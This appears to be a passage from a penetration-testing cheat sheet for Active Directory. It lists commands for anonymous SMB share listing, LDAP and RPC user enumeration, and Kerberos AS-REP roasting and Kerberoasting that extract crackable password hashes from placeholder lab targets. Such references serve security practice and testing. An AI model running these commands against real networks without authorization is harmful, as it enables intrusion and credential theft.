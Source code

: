 `stty raw -echo;fg`

## Active Directory/Windows

### SMB

#### List shares

`smbclient -L 10.10.10.10 -N`

`netexec smb 10.10.10.10 -u 'guest' -p '' --shares`

`smbmap -H 10.10.10.10`

### LDAP

`ldapsearch -H 'ldap://target.xyz/' -x -b "dc=target,dc=xyz" -s base '(objectClass=person)' | grep -i "samaccountname"`

### User enumeration

`kerbrute userenum -d [domain] /usr/share/seclists/Usernames/Names/names.txt --dc 10.10.10.10`

`netexec smb target.xyz -u 'guest' -p '' --users`

`impacket-lookupsid guest@[domain] -no-pass`

`impacket-samrdump [domain/username]:[password]@[domain]`

```bash
$ rpcclient -U '' -N 10.10.10.10

rpcclient $> enumdomusers

rpcclient $> lookupnames administrator

rpcclient $> lookupsids S-1-5-21-4078382237-1492182817-2568127209-500
rpcclient $> lookupsids S-1-5-21-4078382237-1492182817-2568127209-501

```

### Kerberos attacks

#### **AS-REP Roasting**

`GetNPUsers.py target.xyz/ -usersfile users.lst -dc-ip 10.10.10.10`

`netexec ldap 10.10.10.10 -u users.lst -p '' --asreproast hashes.txt`

#### **Kerberoasting**

Kerberoasting with credentials:

`GetUserSPNs.py -request [domain]/[username]:[password] -dc-ip 10.10.10.10 -save -outputfile hash.txt`
